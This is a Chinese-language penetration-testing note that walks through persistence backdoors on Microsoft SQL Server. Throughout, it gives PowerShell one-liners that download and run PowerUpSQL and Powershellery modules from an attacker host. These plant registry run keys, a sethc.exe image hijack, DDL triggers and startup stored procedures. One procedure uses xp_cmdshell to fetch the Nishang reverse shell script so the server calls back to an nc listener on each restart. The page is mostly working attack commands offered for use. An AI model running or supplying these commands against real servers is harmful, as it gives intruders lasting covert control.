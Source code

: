   #### 注册表自启动
	>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/PowerUpSQL/PowerUpSQL.ps1');Get-SQLPersistRegRun -Verbose -Name Update -Command 'c:\windows\temp\Update.exe' -Instance "zone.com\sub2k8""
  #### 重启MSSQL上线(需重启服务)
	http://192.168.0.107/ps/Powershellery/Stable-ish/MSSQL/Invoke-SqlServer-Persist-StartupSp.psm1
	>powershell -ep bypass 
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Powershellery/Stable-ish/MSSQL/Invoke-SqlServer-Persist-StartupSp.psm1') 
	>Invoke-SqlServer-Persist-StartupSp -Verbose -SqlServerInstance "zone.com\sub2k8" -PsCommand "IEX(new-object net.webclient).downloadstring('http://192.168.0.107/xxxx')" 远程木马脚本可用CS/Empire生成
	>net stop mssqlserver
	>net start mssqlserver
  #### 映像劫持
	>powershell -nop -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/PowerUpSQL/PowerUpSQL.ps1');Get-SQLPersistRegDebugger -Verbose -FileName sethc.exe -Command "c:\windows\system32\cmd.exe" -Instance "zone.com\sub2k8""
  #### DDL事件触发
	>powershell -exec bypass 
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/PowerUpSQL/Invoke-SqlServer-Persist-TriggerDDL.psm1') 
	>Invoke-SqlServer-Persist-TriggerDDL -Verbose -SqlServerInstance "zone\sub2k8" -PsCommand "IEX(new-object net.webclient).downloadstring('http://192.168.0.107/xxxx')"  远程木马文件可用CS/Empire生成
	>Invoke-SqlServer-Persist-TriggerDDL -Verbose -SqlServerInstance " zone\sub2k8" -Remove   移除后门
  #### WarSQLKit(后门)
	http://eyupcelik.com.tr/guvenlik/493-mssql-fileless-rootkit-warsqlkit
  #### 存储过程维持权限
	>USE master
	>GO
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/912.png)

	>wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/913.png)

	修改下脚本的ip和端口
	创建个web服务，把脚本传上去
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/914.png)

	创建存储过程
	>CREATE PROCEDURE test_sp
	>AS
	>EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://192.168.1.2/Invoke-PowerShellTcpOneLine.ps1'')"'
	>GO
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/915.png)

	设置服务器启动时立刻执行
	EXEC sp_procoption @ProcName = 'test_sp'
	, @OptionName = 'startup'
	, @OptionValue = 'on';
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/916.png)

	设置完成，使用命令可以查到我们的存储过程
	>SELECT * FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY ( id, 'ExecIsStartUp' ) = 1 ;
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/917.png)

	打开nc监听
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/918.png)

	重启后可以收到会话
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/919.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/920.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/921.png)